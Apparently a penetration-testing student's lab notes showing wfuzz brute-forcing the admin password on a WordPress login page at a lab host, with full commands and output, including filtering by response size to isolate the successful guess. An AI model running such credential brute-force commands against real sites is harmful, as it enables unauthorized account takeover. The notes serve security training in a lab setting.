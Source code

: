 ![[Pasted image 20241203143213.png]]

bruteforcing `admin password`
- where `-d` to specifically fuzz the POST data
- where  `--hc` with a value of 404 to avoid erroneous responses


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://offsecwp:80/wp-login.php         

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp:80/wp-login.php
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000013:   200        105 L    478 W      7201 Ch     "abc123"
000000012:   200        105 L    478 W      7201 Ch     "baseball"
000000010:   200        105 L    478 W      7201 Ch     "dragon"
000000011:   200        105 L    478 W      7201 Ch     "123123"
000000016:   200        105 L    478 W      7201 Ch     "letmein"
000000003:   200        105 L    478 W      7201 Ch     "12345678"
000000014:   200        105 L    478 W      7201 Ch     "football"
000000001:   200        105 L    478 W      7201 Ch     "123456"
000000007:   200        105 L    478 W      7201 Ch     "1234"
000000015:   200        105 L    478 W      7201 Ch     "monkey"
000000009:   200        105 L    478 W      7201 Ch     "1234567"
000000005:   200        105 L    478 W      7201 Ch     "123456789"
000000006:   200        105 L    478 W      7201 Ch     "12345"
000000008:   200        105 L    478 W      7201 Ch     "111111" 
...
```

The above output shows that we receive several erroneous response sizes. Let's correct this by supplying the `--hh` parameter to suppress the response size value of `7201 bytes`, thus filtering our results so only successful attempts are shown in our output.

```bash
kali@kali:~$ export URL="http://offsecwp:80/wp-login.php"

kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/wp-login.php
Total requests: 100000
=====================================================================
ID           Response   Lines    Word       Chars       Payload       
=====================================================================
000000002:   302        0 L      0 W        0 Ch        "password"  
```

![[Pasted image 20241203143714.png]]


